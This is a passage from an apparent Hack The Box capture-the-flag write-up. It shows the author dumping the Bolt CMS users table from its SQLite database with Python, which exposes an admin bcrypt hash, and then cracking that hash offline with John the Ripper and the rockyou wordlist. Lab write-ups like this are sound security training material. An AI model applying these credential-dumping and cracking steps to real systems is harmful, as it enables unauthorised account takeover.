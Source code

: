 This already gives us access to the user flag. A thing we notice right away is the presence of a simple PHP backup script using [restic](https://restic.net/):

```sh
bolt@bolt:/var/www/html$ cat backup.php
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```

The script's privileges are restricted to the `www-data` user, however, so we move on. Browsing further through the filesystem, we find an interesting Boltconfiguration file:

```sh
bolt@bolt:/var/www/html$ cat bolt/app/config/config.yml
# Database setup. The driver can be either 'sqlite', 'mysql' or 'postgres'.
#
# For SQLite, only the databasename is required. However, MySQL and PostgreSQL
# also require 'username', 'password', and optionally 'host' ( and 'port' ) if the database
# server is not on the same host as the web server.
#
# If you're trying out Bolt, just keep it set to SQLite for now.
database:
    driver: sqlite
    databasename: bolt
```

Sadly, the target system has no SQLite shell available. But Python has SQLite drivers shipped with its standard library! Opening up a Python shell, we can work some quick magic to extract the Bolt login credentials:

```python
bolt@bolt:/var/www/html/bolt/app/database$ python3
Python 3.6.8 (default, Oct  7 2019, 12:59:55)
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sqlite3
>>> conn = sqlite3.connect("bolt.db")
>>> cur = conn.cursor()
>>> list(cur.execute("SELECT name FROM sqlite_master WHERE type='table';"))
[('bolt_authtoken',), ('sqlite_sequence',), ('bolt_cron',), ('bolt_field_value',), ('bolt_log_change',), ('bolt_log_system',), ('bolt_relations',), ('bolt_taxonomy',), ('bolt_users',), ('bolt_homepage',), ('bolt_pages',), ('bolt_entries',), ('bolt_showcases',), ('bolt_blocks',)]

>>> list(cur.execute("SELECT * FROM bolt_users;"))
(1, 'admin', '$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK', 'bolt@registry.htb', '2019-10-17 14:34:52', '10.10.14.2', 'Admin', '["files://shell.php"]', 1, None, None, None, 3, None, '["root","everyone"]')
```

Locally, we crack the credentials with John:

```sh
# john --wordlist=/usr/share/wordlists/rockyou.txt bolt.key
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
strawberry       (?)
1g 0:00:00:06 DONE (2020-01-18 20:56) 0.1436g/s 51.72p/s 51.72c/s 51.72C/s strawberry..brianna
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
